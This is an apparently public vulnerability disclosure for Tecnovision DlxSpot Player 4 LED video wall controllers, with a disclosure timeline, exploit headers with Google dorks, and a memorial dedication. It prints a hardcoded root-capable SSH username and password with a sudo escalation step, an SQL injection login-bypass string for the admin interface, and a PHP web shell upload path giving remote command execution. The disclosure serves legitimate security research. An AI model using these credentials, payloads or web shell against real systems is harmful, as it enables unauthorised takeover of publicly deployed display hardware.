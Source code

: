 Tecnovision LED Video Wall Vulnerabilities and Exploits. From SQLi to full root access.
================================
##### Introduction:
Tecnovision is a manufacturer of LED Video Walls used in arenas (For example, Twickenham Stadium), concert halls, shopping malls, as roadsigns and much much more. DlxSpot Player 4 is the software controller for some of these LED walls. These are the unpatched exploits that I have discovered that led (ha!) from SQLi to full root access. (Please note that the hardcoded password was the last finding, they are just sorted in this list by the CVE numbers assigned to them)
Thank you for taking the time to read this. If you've got any questions, ping me on twitter @unknownpwn

I'd like to dedicate this work to my friend and brother-in-law who recently passed away, **Marcus Åström.**
May you rest in peace. 1994-04-05 ✞ 2017-09-11

##### TIMELINE:

+ 2017-05-14 - Discovery of vulnerabilities.
+ 2017-05-15 - Contacted Tecnovision through contact form on manufacturer homepage. 
+ 2017-06-01 - No response, tried contacting again through several contact forms on homepage.
+ 2017-08-10 - Contacted Common Vulnerabilities and Exposures (CVE) requesting CVE assignment.
+ 2017-08-17 - Three CVE's assigned for the vulnerabilities found.
+ 2017-08-22 - With help from fellow hacker and friend, byt3bl33d3r, sent an email in Italian to the company. 
+ 2017-09-18 - No response, full public disclosure.

### 1. Hardcoded Root SSH Password.
``` 
# Exploit Title: DlxSpot - Player4 LED video wall - Hardcoded Root SSH Password.
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom 
# Authors Website: https://unknownpwn.github.io/ 
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: All known versions
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12928
# Linked CVE's: CVE-2017-12929, CVE-2017-12930
``` 

> Hardcoded password for all DlxSpot Players 4, accessible via SSH at port 22 as default. 
> Root login is disabled.

username: `dlxuser`
password: `tecn0visi0n`
 
After logging in, `sudo su` with the same password to escalate privileges to root.

-----------------------------------------

### 2. Admin Interface SQL Injection
```
# Exploit Title: DlxSpot - Player4 LED video wall - Admin Interface SQL Injection
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom
# Authors Website: https://unknownpwn.github.io/
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: >1.5.10
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12930
# Linked CVE's: CVE-2017-12928, CVE-2017-12929
```

> DlxSpot Player 4 above version 1.5.10 suffers from an SQL injection vulnerability in the admin interface and is exploitable > with the following injection.

username:`admin` 
password:`x' or 'x'='x`

-----------------------------------------

### 3. Arbitrary File Upload to RCE
```
# Exploit Title: DlxSpot - Player4 LED video wall - Arbitrary File Upload to RCE
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom
# Authors Website: https://unknownpwn.github.io/ 
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: >1.5.10
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12929
# Linked CVE's: CVE-2017-12928, CVE-2017-12930.
```

> DlxSpot Player 4 - Unrestricted Arbitrary File Upload in `resource.php` leading to Remote Command Execution.

1. Visit http://host/resource.php and upload PHP shell. For example: `<?php system($_GET["c"]); ?>`
2. RCE via http://host/resource/source/shell.php?c=id
3. Output: `www-data`

```
MMMMMMMMWXd;'  .xWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXc..,cdKWMMMMMMMM
MMMMMMMXd:;.    ,0MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNl    .;cdKWMMMMMM
MMMMMWO;.;,   .  :XMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWd.     ':';xWMMMMM
MMMMWx.',;'  'c.  oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWk.  :;  .,;,.oNMMMM
MMMWd..l,''  .:'  .dWMMMMMMWWWXNMMMMMMNNWWWMMMMMMWk.  .:,  .,'l,.oNMMM
MMWk,;lc.., ..,;   .dNMMMMXdkO:xMMMMMWxc0kxNMMMMWk.   ,,.. ''.:o,.dWMM
MMXodxc' .,....;'   .lXMMWd';,.cXMMMMK:.;;'xWMMXo.   .;... ,. 'lxdl0MM
MXkoo;'.  ;,'' ';..   'dKk,....;0MMMMO'....;OXx,    .;' .'':. .,:xdONM
Nl';;...  :l:;,. ',..   .'..'..cONWWXO:.''..,.    .,'.',::lc. .'.:c;lX
0l;,'... .'l:.......'....      .;0WWk'.       ...'.....'.cl,. ...';;:k
Kx;.. .. ..', .,;,....'','.....,OWMMNd......',''....,:'..;,.. .. .':kK
x:... .. ...' .. ,l;.'. .. ...lKMMMMMWO:.'. .. ...:l'....,... .. ...ck
:,..  .. ...,... ..';,,''..,;;OWMMMMMMNo,:' .,',;;''. ...,... .. ...,c
,'.'. .. .. .',,.'..,.''..'..lNMMMMMMMM0;.''..;.., ...,''...  .. .'.',
c',c. .. .. .;c;':,.:'....;::xXMMMMMMMMOl;;,....;:.;,'cc, ..  '. .l'':
k;,,. .'. ...;'';::,,,.',;OXNWWMMMMMMMMWNX0l',..:,,lc;':, .. .'  .c,;k
k:'..  ;, ...;..,.'ll:ckkxXMMMMMMMMMMMMMMMWkdxo::l:',,.'; .. ,,  .'':O
0c..'  lo...'c.'c..kNOxXMWWMMMM R I P MMMMWNWWOx0K: ;:.;:....o; .'.'l0
Xl..;. o0;.':o,.dc.kMWNWMMMMMMMMMMMMMMMMMMMMMWNNMX:.d:.lc'. c0; ', .xX
Wl ,k:.ckd..oOc.o0cdWMMMMMMM M A R C U S MMMMMMMM0:dO'.xx:.,kO, ll..kM
Nc.okl,::ol'cxd,;KK0WMMMMMMMMMMMMMMMMMMMMMMMMMMMM0OXd.ckx;'dol,,kk,.xM
Nc;c.:ol..loc:dx:kMWMMMMMMM  A S T R O M  MMMMMMWWXccklccoc.:ll:ll'xMM
Noc' .oo' .lo':KO0WMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMKxKo,lkc  lk: .::kM
NOx' .',,  ..  .dWMMMM 1994-04-05 ✞ 2017-09-11 MMMMWWO' ';. .::'  cdOM
WN0, ,;.,. ... .OMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMX:  .. .;.., .dKXM
MMN: lx..;. .,. ,0MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXc  ''  ,,.co..OWWM
MMWd'lk:.':. 'c' ,0WMMMMMMM FOREVER LOVED MMMMMMMMXc .:;  ;;.'kx.:XMMM
MMW0dlcc,.;l. ,xd,;OWMMMMM NEVER FORGOTTEN MMMMMW0:.cd: .::..cdocxWMMM
MMNo;,:;';'co' 'kXkkXMMMMMMMMMMMMMMMMMMMMMMMMMMMXxx0O; .ll',;::cokNMMM
MMX: .l: .,co:'..dNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWWWk'.'ldc;'.:c. :XMMM
MM0' 'Ol   cl..;:,lXMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXo,,,.'oc.  ox. ;KMMM
MWd..xNl  .lc  ,0KdxXMMMMMMMMMMMMMMMMMMMMMMMMMMWKdo0k'  lc   dXc .OMMM
WO;:OWNc  .kd  .OMMNNWMMMMMMMMMMMMMMMMMMMMMMMMMWXNWMx. .xd.  oWXc.cXMM
WK0NMMK,  cNx. 'OMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMx. '00'  lNMNOd0WM
MMMMMMk. ,0Mk. ;KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMk. ,KWo. ;KMMMMMMM
MMMMMNc 'OWMk..dWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK; ;XMXc .kMMMMMMM
MMMMMk';0WMMk':XMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWx.;XMMXc.cNMMMMMM
MMMMXddXMMMM0xKMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdoNMMMNd:OMMMMMM
MMMMNXWMMMMMWWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNXWMMMMWOkNMMMMM
```
